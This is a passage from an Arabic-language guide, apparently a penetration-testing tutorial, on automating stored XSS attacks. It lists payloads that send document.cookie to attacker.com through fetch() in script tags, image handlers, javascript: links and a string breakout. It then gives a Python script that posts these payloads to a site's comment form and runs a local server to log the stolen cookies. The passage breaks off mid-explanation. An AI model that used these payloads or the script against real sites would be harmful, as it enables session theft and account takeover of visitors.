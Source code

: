 ### 2. الحقن للأتمتة
تُستخدم هذه الحقن مع سكربتات (مثل Python مع مكتبة `requests` أو `selenium`) لأتمتة اختبار مجموعة من الحقن المستخدمة في XSS المخزن وتحليل الاستجابات.

#### أ. إعداد قائمة الحقن
- **المحاولات**:
  - إنشاء قائمة بالحقن التي تستهدف سياقات HTML، سمات، وJavaScript.
  - مثال قائمة:
    ```
    <script>fetch('http://attacker.com/log?c='+encodeURIComponent(document.cookie))</script>
    <img src=x onload="fetch('http://attacker.com/log?c='+document.cookie)">
    <a href="javascript:fetch('http://attacker.com/log?c='+document.cookie)">Click</a>
    ";fetch('http://attacker.com/log?c='+document.cookie);//
    <script>eval(atob('YWxlcnQoJ1hTUycp'))</script>
    ```
- **كيف يعمل**:
  - يتم إرسال الحقن عبر نقاط إدخال (مثل حقول تعليقات أو منشورات).
  - يتم مراقبة الخادم الخارجي أو المتصفح لتأكيد التنفيذ عند عرض البيانات.
- **متى يُستخدم؟**:
  - عند اختبار نقاط إدخال متعددة بسرعة.

#### ب. سكربت أتمتة بسيط
- **السكربت** (مثال بلغة Python مع خادم لتسجيل البيانات):
  ```python
  from http.server import BaseHTTPRequestHandler, HTTPServer
  import urllib.parse
  import requests

  class LogServer(BaseHTTPRequestHandler):
      def do_GET(self):
          self.send_response(200)
          self.end_headers()
          query = urllib.parse.urlparse(self.path).query
          print(f"بيانات مستلمة: {urllib.parse.parse_qs(query)}")

      def do_POST(self):
          self.send_response(200)
          self.end_headers()
          content_length = int(self.headers['Content-Length'])
          post_data = self.rfile.read(content_length).decode()
          print(f"بيانات POST مستلمة: {post_data}")

  payloads = [
      "<script>fetch('http://localhost:8000/log?c='+encodeURIComponent(document.cookie))</script>",
      "<img src=x onload=\"fetch('http://localhost:8000/log?c='+document.cookie)\">",
      "<a href=\"javascript:fetch('http://localhost:8000/log?c='+document.cookie)\">Click</a>",
      "\";fetch('http://localhost:8000/log?c='+document.cookie);//",
      "<script>eval(atob('YWxlcnQoJ1hTUycp'))</script>"
  ]

  target_url = "https://example.com/submit-comment"
  for payload in payloads:
      try:
          response = requests.post(target_url, data={"comment": payload})
          print(f"تم إرسال: {payload}")
      except:
          print(f"فشل إرسال: {payload}")
  server = HTTPServer(('localhost', 8000), LogServer)
  print("تشغيل الخادم على http://localhost:8000")
  server.serve_forever()
  ```
- **كيف يعمل**:
  - يُشغل خادمًا محليًا لتسجيل البيانات.